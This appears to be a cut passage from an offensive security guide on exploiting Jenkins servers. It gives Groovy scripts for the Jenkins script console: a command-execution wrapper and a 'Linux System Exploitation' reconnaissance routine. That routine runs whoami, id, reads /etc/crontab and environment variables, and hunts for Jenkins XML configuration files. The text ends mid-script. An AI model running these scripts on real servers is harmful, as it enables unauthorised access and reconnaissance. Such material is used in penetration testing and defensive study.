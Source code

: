 #### Enhanced Command Execution Script
```groovy
// Enhanced Groovy command execution with error handling
def executeCommand(String command) {
    try {
        def proc = command.execute()
        def stdout = new StringBuffer()
        def stderr = new StringBuffer()
        
        proc.consumeProcessOutput(stdout, stderr)
        proc.waitForOrKill(5000)
        
        println "Command: $command"
        println "Exit Code: ${proc.exitValue()}"
        println "STDOUT:\n$stdout"
        if (stderr.length() > 0) {
            println "STDERR:\n$stderr"
        }
        println "=" * 50
        
        return [exitCode: proc.exitValue(), stdout: stdout.toString(), stderr: stderr.toString()]
        
    } catch (Exception e) {
        println "Error executing command '$command': ${e.getMessage()}"
        return [exitCode: -1, stdout: "", stderr: e.getMessage()]
    }
}

// Usage examples:
executeCommand("whoami")
executeCommand("uname -a")
executeCommand("ps aux | head -10")
executeCommand("netstat -tulpn | grep LISTEN")
```

### Linux System Exploitation

#### Information Gathering Scripts
```groovy
// Comprehensive Linux system reconnaissance
def systemRecon() {
    def commands = [
        "whoami",
        "id",
        "uname -a",
        "cat /etc/os-release",
        "ps aux | grep jenkins",
        "netstat -tulpn | grep LISTEN",
        "cat /proc/version",
        "ls -la /etc/passwd",
        "mount | grep -E '(ext|xfs|btrfs)'",
        "df -h",
        "free -h",
        "env | grep -E '(PATH|HOME|USER|JENKINS)'",
        "cat /etc/crontab",
        "find /opt/jenkins -name '*.xml' | head -10"
    ]
    
    commands.each { cmd ->
        println "\n[+] Executing: $cmd"
        println "=" * 60
        def result = cmd.execute()
        result.waitFor()
        println result.text
```